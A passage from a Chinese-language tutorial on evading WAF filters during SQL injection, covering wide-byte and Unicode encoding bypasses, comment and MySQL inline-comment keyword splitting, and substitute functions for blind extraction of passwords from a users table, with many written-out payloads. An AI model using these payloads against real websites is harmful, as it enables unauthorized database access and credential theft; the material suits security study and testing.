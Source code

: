 两个示例中，前者利用双字节绕过，比如对单引号转义操作变成\'，那么就变成了%D6%5C'，%D6%5C构成了一个款字节即Unicode字节，单引号可以正常使用

第二个示例使用的是两种不同编码的字符的比较，它们比较的结果可能是True或者False，关键在于Unicode编码种类繁多，基于黑名单的过滤器无法处理所以情况，从而实现绕过

另外平时听得多一点的可能是utf-7的绕过，还有utf-16、utf-32的绕过，后者从成功的实现对google的绕过，有兴趣的朋友可以去了解下

常见的编码当然还有二进制、八进制，它们不一定都派得上用场，但后面会提到使用二进制的例子

 

## d) 使用注释

看一下常见的用于注释的符号有哪些：*//, -- , /**/, #, --+,--*  *-, ;**，--a*

1.普通注释

举例：z.com/index.php?page_id=-15 %55nION/**/%53ElecT 1,2,3,4　　　

　　　'union%a0select pass from users#

/**/在构造得查询语句中插入注释，规避对空格的依赖或关键字识别;#、--+用于终结语句的查询

2.内联注释

相比普通注释，内联注释用的更多，它有一个特性/!**/只有MySQL能识别

举例：index.php?page_id=-15 /*!UNION*/ /*!SELECT*/ 1,2,3

　　　?page_id=null%0A/**//*!50000%55nIOn*//*yoyu*/all/**/%0A/*!%53eLEct*/%0A/*nnaa*/+1,2,3,4…

两个示例中前者使用内联注释，后者还用到了普通注释。使用注释一个很有用的做法便是对关键字的拆分，要做到这一点后面讨论的特殊符号也能实现，当然前提是包括/、*在内的这些字符能正常使用

 

## e)等价函数与命令

有些函数或命令因其关键字被检测出来而无法使用，但是在很多情况下可以使用与之等价或类似的代码替代其使用

1.函数或变量

hex()、bin() ==> ascii()

sleep() ==>benchmark()

concat_ws()==>group_concat()

mid()、substr() ==> substring()

@@user ==> user()

@@datadir ==> datadir()

举例：substring()和substr()无法使用时：?id=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1)))=74　

或者：substr((select 'password'),1,1) = 0x70

　　　strcmp(left('password',1), 0x69) = 1

　　   strcmp(left('password',1), 0x70) = 0

　　　strcmp(left('password',1), 0x71) = -1

上述这几个示例用于说明有时候当某个函数不能使用时，还可以找到其他的函数替代其实现，置于select、uinon、where等关键字被限制如何处理将在后面filter部分讨论
